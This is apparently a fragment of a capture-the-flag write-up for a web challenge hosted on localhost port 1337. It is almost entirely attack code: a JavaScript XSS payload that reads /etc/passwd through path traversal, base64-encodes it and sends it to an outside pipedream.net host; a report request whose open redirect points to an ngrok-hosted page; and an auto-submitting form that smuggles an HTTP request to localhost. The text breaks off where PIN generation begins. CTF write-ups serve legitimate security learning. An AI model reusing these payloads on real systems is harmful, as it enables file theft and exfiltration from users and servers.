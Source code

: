 
Great we have the xss now :)







Sample code to read any local file


index.html

```js
fetch('/api/ipc_download?file=../../../../etc/passwd', {
    credentials: 'include'
  })
    .then(response => response.text())
    .then(data => {
      const encodedData = btoa(data);
      const url = `https://en2celr7rewbul.m.pipedream.net/?flag=${encodedData}`;
      window.location.href = url;
    });
```

```
POST /api/report HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Type: application/json
Content-Length: 94

{
  "id": "../go?to=http://8033-2409-4089-be8c-ddd4-add9-7e9b-206c-78fb.ngrok-free.app/test.html"
}
```

test.html contents

```html
<form id="x" action="http://localhost:1337/"
    method="POST"
    enctype="text/plain">
    <textarea name="GET http://8033-2409-4089-be8c-ddd4-add9-7e9b-206c-78fb.ngrok-free.app HTTP/1.1
    Foo: x">Mizu</textarea>
    <button type="submit">CLICK ME</button>
    </form>


<script> x.submit() </script>
```

![image](https://user-images.githubusercontent.com/31372554/254163199-24f67c10-a553-4cf4-a363-36eea20310d5.png)


----------------------

To generate the PIN value on our end we need to know some values beforehand:
